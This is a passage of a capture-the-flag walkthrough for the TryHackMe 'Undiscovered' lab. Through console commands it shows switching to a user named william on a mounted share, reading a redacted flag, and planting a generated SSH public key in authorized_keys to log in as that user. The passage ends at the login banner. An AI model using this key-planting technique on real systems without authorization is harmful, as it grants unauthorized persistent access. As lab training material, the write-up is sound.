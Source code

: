 ### Accessing mnt directory with newly create user
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ sudo su william
$ bash
william@localhost:/home/localhost/Documents/tryhackme/undiscovered$ cd mnt
william@localhost:/home/localhost/Documents/tryhackme/undiscovered/mnt$ ls
admin.sh  script  user.txt
```
Now, we can read the user.txt flag.

### Reading user.txt
```console
william@localhost:/home/localhost/Documents/tryhackme/undiscovered/mnt$ cat user.txt 
THM{8d7************************0e091c}
```
### Getting a shell as william
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ ssh-keygen -f william
Generating public/private rsa key pair.
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in william
Your public key has been saved in william.pub
The key fingerprint is:
SHA256:1ril+b+qFrnca6CbyVRH9cxhrdG5Yq6fpfp7qZ3n1fU localhost@localhost
The key's randomart image is:
+---[RSA 3072]----+
|            . oo.|
|           . =.oo|
|          .   +o.|
|         +   o.. |
|        S.+ o . .|
|       o+*   .  +|
|      .o+=  .  .E|
|     o.o+.o.  =o+|
|      =o.o+=*O++o|
+----[SHA256]-----+
```
### Writing our public key to william's home directory
```console
william@localhost:/home/localhost/Documents/tryhackme/undiscovered/mnt$ mkdir .ssh
william@localhost:/home/localhost/Documents/tryhackme/undiscovered/mnt$ cat ../william.pub > .ssh/authorized_keys
```

### Using ssh to log in as william
```console
localhost@localhost:~/Documents/tryhackme/undiscovered$ chmod 600 william
localhost@localhost:~/Documents/tryhackme/undiscovered$ ssh -i william william@10.10.18.161
The authenticity of host '10.10.18.161 (10.10.18.161)' can't be established.
ECDSA key fingerprint is SHA256:4FZwE+zBYXSpNWyxNclsv843P0McfDHD9nPMOH26bek.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.18.161' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-189-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


0 packages can be updated.
0 updates are security updates.

```
